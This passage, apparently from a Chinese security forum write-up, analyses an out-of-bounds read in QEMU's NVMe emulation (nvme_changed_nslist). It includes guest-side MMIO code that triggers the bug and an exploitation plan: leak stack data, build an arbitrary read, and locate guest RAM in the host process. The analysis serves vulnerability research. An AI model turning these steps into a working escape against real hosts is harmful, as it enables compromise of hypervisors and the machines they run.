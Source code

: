 ```c
    mmio_write_l_fn(nvme_mmio_region, NVME_OFFSET_CC, (uint32_t)((4 << 20) + (6 << 16) + 1)); /* start nvme, nvme_start_ctrl() */
    mmio_write_l_fn(nvme_mmio_region, NVME_OFFSET_SQyTDBL, tail);                             /* set tail for commands */
}
```

通过写相应寄存器，设置 `NvmeCtrl`​ 里面的字段，比如 `ASQ`​ 字段为 `cmds_phys_addr`​，最后写 0x1000 偏移处，通知 nvme 启动定时器（nvme\_process\_db），然后在 nvme\_process\_sq 中会从该地址处读取 cmd.

```c
        addr = sq->dma_addr + sq->head * n->sqe_size;
        nvme_addr_read(n, addr, (void *)&cmd, sizeof(cmd))
```

最后进入 nvme\_changed\_nslist 此时 off = 0x1010, trans\_len = 8

```c
static uint16_t nvme_changed_nslist(NvmeCtrl *n, uint8_t rae, uint32_t buf_len,
                                    uint64_t off, NvmeRequest *req)
{
    uint32_t nslist[1024];
    uint32_t trans_len;
    int i = 0;
    uint32_t nsid;

    memset(nslist, 0x0, sizeof(nslist));
    // [0] 计算 trans_len
    trans_len = MIN(sizeof(nslist) - off, buf_len);  // bug

    // [1] 传输数据到 guest
    return nvme_c2h(n, ((uint8_t *)nslist) + off, trans_len, req);
}
```

因此最后会调用 nvme\_c2h 把 nslist + 0x1010 处的 8 字节数据拷贝到 leak\_buf\_phys\_addr 处.

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/03/attach-a16eb946be7b449cb244d0c80c9df2b4ad1c07b2.png)

#### 利用思路

由于 off 完全可控，因此只要能够通过越界读泄露 nslist 的地址，通过计算就可实现任意地址读.

当启动 qemu 并指定虚拟机的内存大小为 2G 时，在 QEMU 进程中会 mmap 申请一块 2G 的虚拟内存，该虚拟内存和虚拟机的 RAM 是线性映射.

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/03/attach-88a4b9333616b508d68f9d038f9d35e648b9db7e.png)

通过在 qemu 进程搜索大小为 2G 的映射区可以找到其起始地址

```plaintext
# pmap $(pidof qemu-system-x86_64) | grep 2097152
00007f40dbe00000 2097152K rw---   [ anon ]
```

这个地址在堆中有保存，因此可以通过栈越界读，获取堆地址，然后使用任意地址读去堆中搜索得到 Guest RAM 在 Host 侧的起始地址。
